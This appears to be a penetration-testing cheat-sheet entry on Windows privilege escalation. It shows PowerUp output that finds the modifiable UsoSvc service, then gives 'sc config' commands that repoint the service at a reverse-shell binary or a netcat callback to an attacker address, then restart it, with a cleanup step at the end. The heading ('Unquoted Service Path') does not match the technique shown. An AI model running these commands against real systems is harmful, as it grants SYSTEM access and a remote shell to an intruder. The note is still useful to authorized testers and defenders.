 # Unquoted Service Path

Can be found with [PowerUp.md]
```powershell
PS C:\Users\mssql-svc\Downloads> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1728
ProcessId   : 596
Name        : 596
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

sc config UsoSvc binPath= "C:\Users\mssql-svc\Downloads\rev.exe" # or nc.exe x.x.x.x xxxx
sc stop UsoSvc
sc start UsoSvc
```

## Cleanup
Optional but recommended to return items back to normal after abuse.
```
sc config UsoSvc binPath= "C:\Windows\system32\svchost.exe -k netsvcs -p"
```